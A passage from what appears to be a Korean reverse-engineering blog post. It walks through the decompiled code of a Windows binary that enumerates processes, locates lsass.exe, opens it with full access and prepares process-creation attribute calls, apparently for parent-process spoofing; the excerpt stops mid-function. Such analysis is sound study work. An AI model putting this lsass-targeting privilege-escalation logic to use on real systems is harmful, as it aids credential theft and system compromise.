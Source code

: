 이번 바이너리에서 중점적으로 분석할 부분은 `FUN_00401cb7`입니다. 역시... 처음 열었을 때는 보기가 상당히 불편하네요. 이 변수가 어떤 건지도 모르겠고~ 저번 시간과 같이 보기 편하게 정리해봅시다.

```cpp
undefined4 FUN_00401cb7(void)

{
  bool bVar1;
  HMODULE hModule;
  WINBOOL WVar2;
  int iVar3;
  undefined3 extraout_var;
  undefined4 uVar4;
  HANDLE hHeap;
  PROCESSENTRY32W lppe;
  SIZE_T local_98;
  _PROCESS_INFORMATION local_94;
  _STARTUPINFOA local_84;
  LPPROC_THREAD_ATTRIBUTE_LIST local_40;
  HANDLE proc_handle [2];
  CreateProcessA *CreateProcessA_addr;
  UpdateProcThreadAttribute *UpdateProcThreadAttribute_addr;
  InitializeProcThreadAttributeList *InitializeProcThreadAttributeList_addr;
  OpenProcess *OpenProcess_addr;
  DWORD local_24;
  Process32NextW *Process32NextW_addr;
  Process32FirstW *Process32FirstW_addr;
  HANDLE hSnapshot;
  CreateToolhelp32Snapshot *CreateToolhelp32Snapshot_addr;
  DWORD pid;
  
  proc_handle[0] = (HANDLE)0x0;
  hModule = GetModuleHandleW(L"kernel32.dll");
  CreateToolhelp32Snapshot_addr =
       (CreateToolhelp32Snapshot *)GetProcAddress(hModule,"CreateToolhelp32Snapshot");
  hSnapshot = (*CreateToolhelp32Snapshot_addr)(2,0);
  lppe.dwSize = 0x22c;
  hModule = GetModuleHandleW(L"kernel32.dll");
  Process32FirstW_addr = (Process32FirstW *)GetProcAddress(hModule,"Process32FirstW");
  hModule = GetModuleHandleW(L"kernel32.dll");
  Process32NextW_addr = (Process32NextW *)GetProcAddress(hModule,"Process32NextW");
  WVar2 = (*Process32FirstW_addr)(hSnapshot,(LPPROCESSENTRY32W)&lppe);
  if (WVar2 == 0) {
    local_24 = GetLastError();
  }
  do {
    iVar3 = wcscmp(lppe.szExeFile,L"lsass.exe");
    if (iVar3 == 0) {
      pid = lppe.th32ProcessID;
    }
    WVar2 = (*Process32NextW_addr)(hSnapshot,(LPPROCESSENTRY32W)&lppe);
  } while (WVar2 != 0);
  bVar1 = FUN_00401b91();
  if (CONCAT31(extraout_var,bVar1) == 0) {
    uVar4 = 0;
  }
  else {
    hModule = GetModuleHandleW(L"kernel32.dll");
    OpenProcess_addr = (OpenProcess *)GetProcAddress(hModule,"OpenProcess");
    proc_handle[0] = (*OpenProcess_addr)(0x1f0fff,0,pid);
    if (proc_handle[0] == (HANDLE)0x0) {
      uVar4 = 0;
    }
    else {
```